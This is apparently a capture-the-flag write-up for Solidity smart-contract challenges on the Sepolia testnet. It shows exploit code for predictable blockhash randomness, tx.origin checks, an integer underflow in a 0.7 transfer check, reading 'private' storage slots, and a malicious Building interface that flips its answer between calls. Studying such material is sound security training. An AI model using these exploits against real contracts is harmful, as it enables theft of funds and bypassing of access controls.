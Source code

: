 ## CTF

#### Setup

The first step is to setup your .env as follow :
```.env
SEPOLIA_RPC_URL=<YOUR_RPC_URL>
PRIVATE_KEY=<YOUR_PRIVATE_KEY>

HACKER_ADDRESS=<HACKER CONTRACT ADDRESS>
TO_HACK=0x9D29D33d4329640e96cC259E141838EB3EB2f1d9
```

#### 1) Flip 🪙

The objective is to predict 10 times the correct flip.
This is possible due to the accessibility of the "*random*" **FACTOR** of the contract. We can reproduce the calcul and predict **each time** the correct flip.
```sol
uint256 FACTOR = 6275657625726723324896521676682367236752985978263786257989175917;
uint256 lastHash;

function flip() public payable returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        bool win = toHack.flip(side);
        return win;
    }
```

#### 2) AddPoint 🥇

The only one thing to do to get this point is to call the function from another address. The idea is to call a smart contract which call the function, then `tx.origin != msg.sender`.

#### 3) Transfer 💸

The main difficulty of this one is to make a transaction while we have no found. But good for us, this contract is in `solidity ^0.7.0` so the overflows / underflows errors are not natively reverted.

That's why in this require :
```sol
require(balances[msg.sender] - _value >= 0);
```
With a balance of 0 and a _value of 1 we can break the underflow and we obtens a realy **HIGH** value. Then we can bypass the require and send a money we don't have.

#### 4) Send Password 🙊

To achieve this objective we have to read a private value in the storage. To process we calculate the storage slot of the variable we are looking for :
```sol
uint256 FACTOR =
        6275657625726723324896521676682367236752985978263786257989175917; // 0
address public owner; // 1
uint256 lastHash; // 2
bytes32 private password; // 3
bytes32[15] private data; // 4 - 19
```
A slot can store up to 32 bytes (256 bits) so if a variable need more space than the actual slot, it use another one. In our case we can calculate easily the slot of the password : **3**

We can now access the storage and get the password :
```sol
uint startSlot = 3;
bytes32 password = vm.load(address(toHack),bytes32(startSlot));
```

#### 5) Send Key 🔑

The idea is the same as the password objective but to calculate the slot we have to think about the index of the data in the array :
```sol
startSlot = 16; // 4 + 12
bytes32 key = vm.load(address(toHack),bytes32(startSlot));
```

#### 6) Contribute 🤚

This one is a two step objective :
1. Add contribution
1. Send SepETH to the contract and contact the receive callback

```sol
contractToHack.contribute{value: 0.00001 ether}();
address(contractToHack).call{value: 0.00001 ether}("");
```

#### 7) GoTo 🛗

For this one we just have to implement the interface **Building** in our contract and describe its function as we need it to be :

```sol
function goTo(uint256 _floor) public whenUnlocked {
    Building building = Building(msg.sender); // <-- OUR ENTRY

    if (!building.isLastFloor(_floor)) {
        userFloor[tx.origin] = _floor;
        top[tx.origin] = building.isLastFloor(_floor);
        if (top[tx.origin]) {
            if (!alreadyCalled[tx.origin]["goTo"]) {
                marks[tx.origin] += 4;
                alreadyCalled[tx.origin]["goTo"] = true;
            }
        }
    }
}
```

```sol
bool public switchFlipped =  false;
    
function isLastFloor(uint) external returns (bool) {
    // first call
    if (! switchFlipped) {
        switchFlipped = true;
        return false;
    // second call
    } else {
        switchFlipped = false;
        return true;
    }
}
```
With our code we can now bypasse the security and switch the state to achieve our objective.